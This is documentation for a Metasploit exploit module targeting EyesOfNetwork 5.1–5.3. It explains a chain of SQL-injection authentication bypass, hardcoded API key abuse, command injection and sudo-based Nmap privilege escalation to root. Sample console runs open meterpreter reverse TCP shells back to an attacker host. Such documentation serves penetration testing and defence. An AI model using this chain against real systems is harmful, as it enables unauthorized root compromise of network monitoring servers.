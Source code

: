 ## Vulnerable Application
This module exploits multiple vulnerabilities in EyesOfNetwork version 5.1, 5.2 and 5.3 in order to execute arbitrary commands as root.

The module first runs a few checks to verify the EyesOfNetwork version. If version 5.1 or 5.2 is detected, it attempts an authentication bypass via an SQL injection in the user_id field in a cookie (CVE-2020-9465). If version 5.3 is detected, the module exploits a hardcoded admin API key in EyesOfNetwork API version 2.4.2 (CVE-2020-8657) in order to generate a valid access token and use it to create a new user with admin privileges. If the generated key is not valid, the admin API key is obtained via an SQL injection vulnerability affecting the same API version (CVE-2020-8656). If this doesn't work either, it attempts CVE-2020-9465, which is the slowest and most noisy exploit of the three.

For all vulnerable versions, the next step after bypassing authentication is to abuse a command injection vulnerability in the `target` parameter of the AutoDiscovery functionality within the EON web interface (CVE-2020-8654). Specifically, the module writes an Nmap NSE script containing the payload to disk, and then activates this script by launching an Nmap host discovery scan against the target. This achieves privilege escalation because the default sudo configuration permits the 'apache' user to execute Nmap as root (CVE-2020-8655).

The module only works with HTTPS, so SSL is enabled by default. Valid credentials for a user with administrative privileges are required. However, as explained above, the module can bypass authentication via various methods, depending on the EON version. This module has been successfully tested on EyesOfNetwork 5.1, 5.2 and 5.3.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/eyesofnetwork_autodiscovery_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set payload [payload]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options
1. `SERVER_ADDR`. This option should be set for EON version 5.3 in case the EyesOfNetwork server IP address is different from RHOST. This because the EON server IP is needed to generate the API key.

## Advanced Options
1. `SQLI_SLEEP`. The sleep value to be used when attempting to exploit CVE-2020-9465, which uses sleep-based SQL injection. The default value is 1.

## Scenarios
1. EyesOfNetwork version 5.1
```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > show options

Module options (exploit/linux/http/eyesofnetwork_autodiscovery_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443              yes       The target port (TCP)
   SERVER_ADDR                   yes       EyesOfNetwork server IP address (if different from RHOST)
   SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      8080             yes       The local port to listen on.
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI    /                yes       Base path to EyesOfNetwork
   URIPATH                       no        The URI to use for this exploit (default is random)
   VHOST                         no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.1 or earlier. Attempting exploitation using CVE-2020-9465.
[+] The target seems vulnerable.
[*] Verified that the admin user has at least one active session.
[*] Found the admin 'session_id' size: 31
[*] Calculating the admin 'session_id' value. This will take a while...
[+] Obtained admin 'session_id' value: 1856115646
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.1
[*] Meterpreter session 1 opened (192.168.91.2:4444 -> 192.168.1.1:55744) at 2020-05-19 08:48:37 -0400
```
2. EyesOfNetwork version 5.2
```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.2. Attempting exploitation using CVE-2020-9465.
[+] The target seems vulnerable.
[*] Verified that the admin user has at least one active session.
[*] Found the admin 'session_id' size: 31
[*] Calculating the admin 'session_id' value. This will take a while...
[+] Obtained admin 'session_id' value: 1445224287
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.3
[*] Meterpreter session 2 opened (192.168.1.2:4444 -> 192.168.1.3:38070) at 2020-05-19 08:49:46 -0400
```
3. EyesOfNetwork version 5.3
```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.3 or later. Attempting exploitation using CVE-2020-8657 or CVE-2020-8656.
[*] Using generated API key: a926605f4e617fd68bbb86112156b41ea2406503859dad58b0d0aefcc848b755
[+] Authenticated as user r6veXwtZ2zh
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.4
[*] Meterpreter session 3 opened (192.168.1.2:4444 -> 192.168.1.4:60244) at 2020-05-19 08:50:04 -0400
```
## References
1. <https://www.exploit-db.com/exploits/48025>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-8654>
3. <https://nvd.nist.gov/vuln/detail/CVE-2020-8655>
4. <https://nvd.nist.gov/vuln/detail/CVE-2020-8656>
5. <https://nvd.nist.gov/vuln/detail/CVE-2020-8657>
6. <https://nvd.nist.gov/vuln/detail/CVE-2020-9465>
